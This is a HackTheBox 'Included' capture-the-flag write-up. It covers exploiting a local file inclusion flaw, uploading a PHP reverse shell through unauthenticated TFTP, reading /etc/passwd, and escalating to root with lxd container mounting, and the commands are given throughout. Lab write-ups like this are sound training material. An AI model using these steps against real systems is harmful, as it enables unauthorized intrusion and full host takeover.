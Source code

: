 ```yaml
---
title: "HackTheBox - Included"
author: Nasrallah
description: ""
date: 2022-07-17 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, easy, udp, ftp, lfi, lxd]
img_path: /assets/img/hackthebox/machines/included/
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [Included](https://app.hackthebox.com/starting-point?tier=2) from [HackTheBox](https://www.hackthebox.com). The target is running a webserver on port 80 and a TFTP server on udp port 69 which is unusual. The webpage is vulnerable to lfi, and the tftp server requires no authentication. We upload a reverse shell to the tftp server and request it using the lfi to get access to the target. After that we find some credentials in one of the  web files that belongs to a user named `mike`. That user is part of a group called `lxd`, and we find a way to escalate privilege with that. 

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.129.95.185 (10.129.95.185)
Host is up (0.20s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_Requested resource was http://10.129.95.185/?file=home.php
```

Found port 80 open running Apache.

Let's run another scan but this time, we scan UDP ports. `sudo nmap -sU -T4 {target_IP}`

>This take a very long time.

```terminal
Nmap scan report for 10.129.95.185 (10.129.95.185)
Host is up (0.080s latency).
Not shown: 998 closed udp ports (port-unreach)
PORT   STATE         SERVICE
69/udp open|filtered tftp
```

We have port 69 open running `tftp`.

## Web

Let's navigate to the webpage.

![](1.png)

Nothing really interesting here, but if we take a look at the URL `http://10.129.95.185/?file=home.php` we see that the website is including resources from the system(home.php) via the parameter `file`, and this might be vulnerable to LFI(**L**ocal **F**ile **I**nclusion).

## LFI

Let's see if we can read the `/etc/passwd` file by including it in the file parameter: `http://10.129.95.185/?file=/etc/passwd`.

![](2.png)

We now confirmed that the website is vulnerable to LFI.

## TFTP

We found earlier that TFTP server is running on udp port 69. We can connect to that service but first we need to install it on our machine.

```terminal
sudo apt install tftp
```

By default, TFTP needs no authentication. We can connect to it like so `tftp {target_ip}`.

![](3.png)


# **Foothold**

From the help menu, we see the command `put` that gives us the ability to upload file to the server.

We can upload a reverse shell and then request it using the LFI to get a shell. We can use this one [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).

>Change the ip in the code to you tun0 ip.

From the same directory of the reverse shell file, connect to the TFTP server and upload the file using `put reverse.php`.

![](4.png)

Now run a listener `nc -lvnp 1234`

The next thing we need to know is the path of the file we just uploaded. A quick search on google we get the path of the TFTP server.

![](5.png)

Great! Now go the the browser and request the file. `http://10.129.95.185/?file=/var/lib/tftpboot/reverse.php`.

![](6.png)

Got the reverse shell. I then stabilized my shell with the following commands.

```terminal
python3 -c 'import pty;pty.spawn("/bin/bash")'

export TERM=xterm
 
**ctrl + z**

stty raw -echo;fg
```

![](7.png)


# **Privilege Escalation**

Searching in the webserver's directory, i found a password for user `mike` in on the files.

![](8.png)

Let's change the user to mike `su mike`.

![](9.png)

After running the command `id`, we notice that mike is part of a group named `lxd`.

Searching on google for lxd privilege escalation, found this useful [article](https://www.hackingarticles.in/lxd-privilege-escalation/) that provides us with the following guided steps to follow.

 1. Steps to be performed on the attacker machine:
    - Download build-alpine in your local machine through the git repository.
    - Execute the script “build -alpine” that will build the latest Alpine image as a compressed file, this step must be executed by the root user.
    - Transfer the tar file to the target machine.
 
 2. Steps to be performed on the target machine:
    - Download the alpine image.
    - Import image for lxd.
    - Initialize the image inside a new container.
    - Mount the container inside the /root directory.


Let's get started by cloning the git repo.

```bash
git clone  https://github.com/saghul/lxd-alpine-builder.git
```

Then we need to build the image by running `sudo ./build-alpine`

![](10.png)

The above command has created a tar file that we need to upload to the target using python http server.

```bash
sudo python3 -m http.server 80
```

![](11.png)

Now we go to the target machine and request the file.

```bash
wget http://10.10.10.10/alpine-v3.16-x86_64-20220803_1751.tar.gz
```

![](12.png)

Now we add the image to the LXD as follows:

```bash
lxc image import ./alpine-v3.16-x86_64-20220803_1751.tar.gz --alias myimage
```

let's check the list of images.

```bash
lxc image list
```

![](13.png)

Great! We can see that our image is there.

We now need to run the following list of commands that would give us access to root.

```bash
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
```

![](14.png)

Great! We got a root shell. But to see all the resources of the target machine, navigate to `/mnt/root`

![](15.png)


---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).